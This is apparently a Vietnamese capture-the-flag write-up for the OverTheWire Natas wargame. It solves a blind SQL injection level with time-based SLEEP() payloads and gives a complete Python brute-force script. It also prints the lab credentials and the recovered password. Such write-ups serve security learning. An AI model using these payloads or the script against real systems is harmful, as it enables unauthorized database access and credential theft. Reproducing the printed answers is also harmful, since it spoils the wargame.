


# Natas Level 16

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas17.natas.labs.overthewire.org**     
**Credential: natas17:*EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    



1. Source code:    
```PHP
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

==>Có vẻ lại là 1 bài SQLi nữa nhưng ở đây, thông báo hiển thị ra ngoài đã bị xóa bỏ, khi mình query 1 giá trị, sẽ không có gì hiển thị ra ngoài!

==>Thử đánh giá bằng ```time-based SQL``` với lệnh ```SLEEP()```

-Ta biết được rằng db trang web sử dụng là ```MySQL``` nên ta có lệnh ```IF(condition, true_value, false_value)```

-Đầu tiên ta sẽ tìm độ dài password với payload sau: ```natas18" AND IF(LENGTH(password)>1, SLEEP(5), 0)-- a```

(Tương tự với SQLi level trước thì ở đây ta xem xem cái nào trả về hơn 5s thì chốt đó là length)    

==>Ta tìm được password có length là 32.



-Theo đó thì tìm password tiếp với payload này: ```natas18" AND IF(SUBSTRING(password, 1, 1)='a', SLEEP(3), 0)-- a```:     
```python
import requests
import string
import time

url = "http://natas17.natas.labs.overthewire.org/"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")

CHAR_SET = string.ascii_letters + string.digits
password = ""

for pos in range(1, 33):
    for char in CHAR_SET:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password, {pos}, 1)="{char}", SLEEP(3), 0)-- a'
        start_time = time.time()
        r = requests.post(url, auth=auth, data={"username":payload})
        waste_time= time.time() - start_time
        
        if(waste_time >= 3):
            password += char
            print(f"[+] {char} is true char in {pos} of pwd")
            break
        else:
            print(f"[-] {char} isn't true char in {pos} pos")
            
print(password)
```

## 📌 Key: ```6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ```